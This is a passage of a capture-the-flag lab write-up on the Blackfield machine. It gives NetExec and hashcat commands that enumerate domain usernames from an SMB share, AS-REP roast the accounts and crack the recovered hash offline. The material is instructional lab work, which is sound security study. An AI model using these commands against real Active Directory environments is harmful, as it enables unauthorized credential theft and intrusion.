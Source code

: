 <figure><img src="../../.gitbook/assets/blackfield_profile_share.png" alt=""><figcaption><p>Figure 3: Spidering the profiles$ share.</p></figcaption></figure>

Let's create a username list based on the information provided from the `profiles$` share:

{% code overflow="wrap" %}
```bash
# writing nxc's output to a file
nxc smb 10.10.10.192 -u 'guest' -p '' --spider profiles\$ --regex . --depth 0 > nxc_users
# manually remove the junk lines
nano nxc_users
# extract the usernames
cat nxc_users | grep '[dir]' | cut -d'/' -f5 | cut -d' ' -f1 | sort | uniq > domain_users
```
{% endcode %}

Putting our username list to work right away and checking for any [ASREPRoastable](../../tl-dr/tl-dr/active-directory/asreproasting.md) accounts (Figure 4), we get back `support`'s hash, which we pass and crack with [Hashcat](../../tools/tools/passwords/hashcat.md) (Figure 5).

{% code overflow="wrap" %}
```bash
# asreproasting with netexec
nxc ldap 10.10.10.192 -u domain_users -p '' --asreproast asrep_users --continue-on-success
# cracking the hash with hashcat
hashcat -m18200 asrep_users /usr/share/wordlists/rockyou.txt
# showing the results
hashcat asrep_users --show
```
{% endcode %}

<figure><img src="../../.gitbook/assets/blackfield_asreproast.png" alt=""><figcaption><p>Figure 4: ASREPRoasting with NetExec.</p></figcaption></figure>
